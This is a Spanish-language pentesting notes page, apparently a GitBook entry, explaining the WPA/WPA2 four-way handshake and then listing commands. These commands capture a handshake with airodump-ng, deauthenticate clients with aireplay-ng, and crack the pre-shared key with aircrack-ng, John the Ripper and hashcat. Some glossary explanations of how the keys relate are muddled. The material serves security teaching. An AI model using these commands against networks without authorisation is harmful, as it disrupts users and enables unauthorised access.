 # WPA/WPA2

## Cómo funciona

WPA (Wi-Fi Protected Access) y WPA2 son protocolos de seguridad inalámbrica que proporcionan autenticación y cifrado seguros para las redes Wi-Fi. Estos protocolos se diseñaron para mejorar las debilidades del protocolo WEP . En estos protocolos, para que la información viaje cifrada entre los dispositivos que están permitidos en la red, se utiliza el protocolo del Four Way Handshake en el que a través de 4 mensajes que se intercambian entre un cliente y un punto de acceso para establecer una clave de cifrado compartida. Consta de 4 pasos, comenzando cuando un cliente envia una solicitud para autenticarse al AP:

1. El AP envía un un **ANonce** , permitiendole ahora al cliente el crear la **PTK**.
2. Ahora el cliente envia un **SNonce** junto con el **MIC**, estos elementos le permiten al AP crear la PTK.
3. El AP le envía la **GTK** al cliente y este la almacena.
4. El cliente le envía un mensaje al AP para indicarle que todo está correcto.



<figure><img src="../../.gitbook/assets/image (104).png" alt=""><figcaption></figcaption></figure>

**Glosario:**

* **PSK:** Pre Shared Key, es la contraseña para acceder al Access Point.
* **PMK:** siglas de Pair Master Key, es una clave compuesta tanto por la **PSK** (pre shared key) y el **SSID** (utilizado como salt para darle aleatoriedad a la clave), y la dirección **mac** de la estación.
* **ANonce:** es un valor aleatorio, por lo tanto único, generado por el **AP** al momento de querer autenticarse un cliente, ya que con este valor se podrá generar la PTK.
* **PTK:** es una clave de cifrado temporal utilizada en el proceso de autenticación de un cliente con un access point. Esta compuesta por: **PMK + ANonce + SNonce + MAC-AP + MAC-STA.**
* **MIC:** sirve para garantizar que la integridad del mensaje no fue alterada. Ya que el cliente y el ap pueden calcularlo, asi verifican la integridad del mensaje.
* **GTK:** Group Temporal Key, es una clave compartida entre todos los miembros de la red utilizada para desencriptar todo el tráfico de broadcast (hacia toda la red) o multicast (un grupo de direcciones IP). Esta es actualizada regularmente en la red.



## Explotación

Para poder ganar acceso al access point, vamos a necesitar obtener la PSK. Por lo que si lograsemos capturar todo el proceso del Four Way Handshake seríamos capaces de intentar por fuerza bruta obtener la contraseña. Esto es así por que para poder obtener la clave de la red, esta está contenida en el PMK, que a su vez este está contenido en la PSK, siendo este el único valor que nos falta de la ecuación para obtener la clave.

Para obtener el handshake o bien lo podemos capturar de forma pasiva esperando a que un cliente se conecte a la red o bien deautenticando uno o todos los clientes de la red por una cantidad que determinemos de tiempo, para así forzar a capturar el handshake cuando se intenten reconectar.

### Capturar Handshake

```bash
airodump-ng --bssid <BSSID> --channel <n> --write <outfile> <name-monitor-iface>
airodump-ng --bssid 5C:E2:8C:55:88:B8 --channel 1 --write 4_way_handshake wlxd0374538a8d2
```

### De-Autenticar Cliente/s

```bash
# Specific Client
aireplay-ng --deauth <n-packets> -a <BSSID> -c <client mac> <name-monitor-iface>
aireplay-ng --deauth 0 -a 5C:A0:8C:75:91:E8 -c C0:37:A5:CE:D1:4A wlxd0374538a8d2

# Broadcast
aireplay-ng --deauth <n-packets> -a <BSSID> <name-monitor-iface>
aireplay-ng --deauth 0 -a 5C:A0:8C:75:91:E8 wlxd0374538a8d2
```

### Crackeo de la Pre Shared Key

```bash
### hashcat utils ###
git clone https://github.com/hashcat/hashcat-utils.git
cd hashcat-utils/src/
gcc cap2hccapx.c -o cap2hccapx.bin
./cap2hccapx.bin <.capfile> <output>.hccapx

### Con CPU ###
# Aircrack-ng
aircrack-ng <.cap file> -w <wordlist>

# John The Ripper
./cap2hccapx.bin <.capfile> <output>.hccapx
hccap2john <hccapx file> > hash
john hash -w <wordlist>

### Con GPU ###
# Hashcat
./cap2hccapx.bin <.capfile> <output>.hccapx
hashcat -m 2500 -a 0 <hccapx file> <wordlist>         # Brute Force with wordlis
hashcat -m 2500 -a 3 <hccapx file> ?d?d?d?d?d?d?d?d   # Brute force digits
```
